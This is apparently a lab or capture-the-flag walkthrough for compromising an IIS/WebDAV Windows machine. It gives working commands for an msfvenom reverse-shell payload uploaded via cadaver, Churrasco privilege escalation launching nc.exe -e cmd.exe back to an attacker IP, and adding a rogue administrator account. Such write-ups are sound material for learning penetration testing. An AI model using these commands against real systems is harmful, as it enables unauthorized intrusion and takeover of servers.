# Enumeration
- We use nmap for enumeration `sudo nmap -p- -A -T4 -O 10.10.10.15` which gives 
- We find that a website is hosted:
- We used dirbuster and found some hidden directories but they are empty
# Exploitation
## Non-metasploit
- WE find that certain risky requests are permitted using davtest
- Only text and html files are executable so we generate our payload to .aspx format and rename it to .txt using `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=1234 -f aspx >reverse.aspx` and `mv reverse.aspx reverse.txt`
- Then we use cadaver to start a dav session using `cadaver 10.10.10.15` and use a put request to upload our reverse.txt file then rename it to reverse.aspx using move
- we visit html://10.10.10.15/reverse.aspx with netcat listening where we get a shell
- We used the churrasco exploit from https://github.com/Re4son/Churrasco and nc.exe file by uploading in the same manner and executing  `churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe 10.10.14.25 4444 -e cmd.exe"` and listening on netcat using `nc -nlvp 4444` 
- can also run `churrasco.exe -d "net user hacker hacker /add && net localgroup Administrators hacker /add"`
- We get a root shell: 
## Metasploit
- start metasploit and search for IIS exploits, find one and execute to get a meterpreter shell:
- using ps to list processes:
- We migrate to process 1964 for accessing the user
- We use exploit_suggester and exploit and get a shell. As all this is pretty self explanatory we wont go into detail.